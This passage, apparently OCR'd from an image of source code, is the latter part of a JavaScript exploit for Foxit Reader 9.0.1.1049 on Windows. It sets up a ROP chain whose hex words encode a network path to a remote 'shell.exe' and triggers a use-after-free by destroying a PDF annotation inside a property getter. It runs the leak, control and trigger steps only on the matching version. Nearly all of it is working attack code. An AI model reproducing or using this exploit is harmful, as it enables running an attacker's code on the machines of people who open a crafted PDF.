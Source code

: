 ```
        
        //Path to executable

	rop[0x0c] = 0x39315c5c;
	rop[0x0d] = 0x36312e32;
	rop[0x0e] = 0x2e312e38;
	rop[0x0f] = 0x735c3031;
	rop[0x10] = 0x65726168;
	rop[0x11] = 0x6568735c;
	rop[0x12] = 0x652e6c6c;
	rop[0x13] = 0x00006578;
	rop[0x14] = 0x00000000;
	rop[0x15] = 0x00000000;
	rop[0x16] = 0x00000000;
        
        //End Path to executable

        rop[0x17] = 0x00000000;              // adios, amigo
    }
}

function trigger_uaf(){
    var that = this;
    var a = this.addAnnot({type:"Text", page: 0, name:"uaf"});
    var arr = [1];
    Object.defineProperties(arr,{
        "0":{
            get: function () {

                that.getAnnot(0, "uaf").destroy();

                reclaim();
                return 1;
            }
        }
    });

    a.point = arr;
}

function main(){
    leak_heap_chunk();
    leak_vtable();
    control_memory();
    trigger_uaf();
}

if (app.platform == "WIN"){
    if (app.isFoxit == "Foxit Reader"){
        if (app.appFoxitVersion == "9.0.1.1049"){
            main();
        }
    }
}
```
This code may differ from yours as the executable path may difference.

